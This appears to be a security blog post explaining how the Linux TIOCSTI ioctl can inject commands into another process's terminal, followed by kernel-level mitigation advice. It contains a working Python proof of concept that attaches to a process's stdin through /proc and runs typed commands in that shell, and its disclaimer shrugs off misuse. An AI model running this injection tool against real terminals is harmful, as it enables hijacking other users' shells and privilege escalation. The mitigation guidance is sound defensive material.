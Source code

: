 **_Disclaimer:_** _You are free to use presented knowledge for educational purposes, with good intentions (penetration testing, ctf’s etc.), or not._ **_I am not responsible for anything you do._**

---

I wrote this article back in 2021, and it was available on my old website. Since 2022, there's a mitigation available, so I've decided to bring the article back and update it.

---

## The TIOCSTI interface abuse

### **Prerequisite:** root

> (Not always! This is a potential privilege escalation and lateral movement vector.)

Imagine that you could take control over processes' stdin. For example inject commands into someones shell, giving impression, that the shell has been took control over and is executing commands by itself.

How does one manage to affect the file descriptors of a process in such unsafe way?

[Dangerous interface - TIOCSTI.](https://undeadly.org/cgi?action=article;sid=20170701132619) 

A common use of this interface, is to control hardware devices. But it can be also used to inject commands into unsuspecting TTY's, even connected to other devices for example over SSH.

Proof of Concept: 
```python
import sys, os 
import termios, fcntl 

# specify tty
process = sys.argv[1]

# Open the process input file descriptor
fd = "/proc/" + process + "/fd/0" 
fd_handle = os.open(fd, os.O_RDWR) 

while True: 
  line = input(f"{fd} $ ") 
  for character in line: 
     fcntl.ioctl(fd_handle, termios.TIOCSTI, character)
     fcntl.ioctl(fd_handle, termios.TIOCSTI, '\x0d')
```

In the example above we are attaching to the process stdin, sending chars one by one, and then executing the command by sending the **'\x0d'** shell escape char.

### What is the result?

![Proof of Concept](images/poc.gif)

 > In summary, it is possible to transparently take control over a program descriptor using TIOCSTI.

## Mitigation:

TIOCSTI is a kernel problem.
https://jdebp.uk/FGA/TIOCSTI-is-a-kernel-problem.html

If you use BSD, you are safe, as this interface has been removed completely.
In case you use Linux, it is enabled by default, however, it is possible to disable it since 2022, Kernel version 6.2.

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=83efeeeb3d04b22aaed1df99bc70a48fe9d22c4d

Recompile your kernel with this setting as below:

```
CONFIG_LEGACY_TIOCSTI=n
```


Disabling this interface may result in programs relying on TIOCSTI to break.

If you wan't to continue using TIOCSTI, make sure to test if only privileged users are able to use it, and there are no vulnerable apps there to abuse it, **to prevent privilege escalation scenarios.**

Example privilege escalation:
https://vuldb.com/?id.223097

Stay safe!

K.